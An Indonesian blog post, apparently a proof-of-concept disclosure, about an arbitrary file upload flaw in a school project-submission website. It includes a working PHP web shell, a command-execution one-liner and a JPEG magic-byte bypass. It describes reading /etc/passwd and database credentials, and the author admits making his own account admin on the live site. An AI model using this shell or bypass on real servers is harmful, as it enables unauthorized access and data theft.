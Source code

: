 ```yaml
---
title: "Database Control + Server Configuration Leaked via Arbitrary File Upload"
date: "2025-06-29"
description: "PoC of Vulnerability in asessment24.site"
categories: [
    "Blog"
]
tags : [
    "Proof of Concept"
]
image: database.png
---
```

#####
> Kerentanan ini sudah dilaporkan dan sudah difix

Singkat cerita, saya diberi tau oleh seseorang terkait sebuah website khusus jurusan `RPL`, di website ini diberikan fitur seperti Register, Login, File Upload dll (Kelas saya tidak diberitahu karna memang kelas saya tidak diajar oleh Pak `Rian`, dan sepertinya web ini khusus untuk mengumpulkan project-project yang diajar oleh Pak `Rian`)

Dan begini tampilan website nya (setelah login),

![](gambar.png)

Keren nya disini, ada fitur untuk profile, dan tentu bisa diupdate, disini kita bisa upload image untuk diset sebagai profile gambar kita,

![](profile.png)

Dan ya, disini lah juga kerentanannya berada, yaitu pada fitur `Upload Image` pada Profile. Btw, kerentanan pada fitur `Upload Image` ini akan tidak berguna jika kita tidak dapat endpoint access terhadap gambar yang telah kita kita upload, dan di website ini, seluruh gambar siswa disimpan di direktori `/assets`, yang artinya kita dapat access endpoint terhadap file yang telah kita upload.

Yang pertama, disini saat kita memilih file untuk kita dapat upload, memang disuruh untuk menginputkan file yang berekstensi gambar (`png, jpg, dll`) tapi disini alih alih kita menginputkan ekstensi file tersebut, kita dapat menginputkan file dengan ekstensi lain, seperti `txt`, dan... `php`

<video controls width="100%">
  <source src="/videos/yesking.mp4" type="video/mp4">
  Browser lo gak support video tag.
</video>


Nah, catatan nya disini, kalo yg kita upload itu adalah ekstensi file code, maka saat kita mencoba akses lewat `/assets` tidak bisa karna otomatis langsung ke download, untuk bypass ini, kita bisa bikin seolah olah gambar kita adalah gambar jpeg (gambar jpeg ketika diakses dapat mengeluarkan output raw dari file nya)

script PHP untuk LFI:
```php
<?php
if (isset($_GET['ls'])) {
    echo "<pre>";
    $path = $_GET['ls'] ?: '.';
    foreach (scandir($path) as $file) {
        echo $file . "\n";
    }
    echo "</pre>";
    exit;
}

if (isset($_GET['read'])) {
    echo "<pre>";
    echo htmlspecialchars(file_get_contents($_GET['read']));
    echo "</pre>";
    exit;
}

if (isset($_GET['write']) && isset($_POST['data'])) {
    file_put_contents($_GET['write'], $_POST['data']);
    echo "File written.";
    exit;
}
?>
```
`"Kenapa LFI? kok ga langsung RCE aja?"`

Sebelumnya udah nyoba untuk pake script RCE,
```php
<?php system($_GET["cmd"]); ?>
```
tapi gagal yang karna diblacklist oleh `Firewall` bawaan dari server, biasanya, untuk `exec`, `shell_exec`, dan `system()` diblacklist, dan ini berlaku juga untuk server hosting yang gratisan maupun berbayar

Nah, disini, untuk bypassing nya agar script PHP nya tetap bisa berjalan, kita bisa menambahkan `Magic Byte` dan `Header Byte` dari file format `JPG`

![](xxd.png)

dan juga saat rename file script shell nya menjadi `shell.php.jpg`

![](fileformat.png)

dan setelah diupload, tinggal access aja ke endpoint `/assets`

![](passwd.png)

Dan itu untuk yang LFI, sekarang yang `Database`, karna kita udh punya LFI nya, sekarang kita tinggal nyari file `config.php` atau `koneksi.php`, dan karna ini LFI, disini perlu usaha ekstra untuk mencari file nya di tiap tiap direktori

![](db.png)

disini saya tinggal copy config nya dan tambahkan beberapa fungsi untuk menampilkan data nya berdasarkan query input,

![](dbtable.png)

dan disini saya punya hak akses tinggi, bisa create, read, update, dan `delete`.

Dan segitu saja Proof of Concept dari Vulnerability yang telah saya temukan, semoga bisa membantu (btw saya gak ngelakuin hal illegal selain update role saya sendiri jadi `admin` :v)


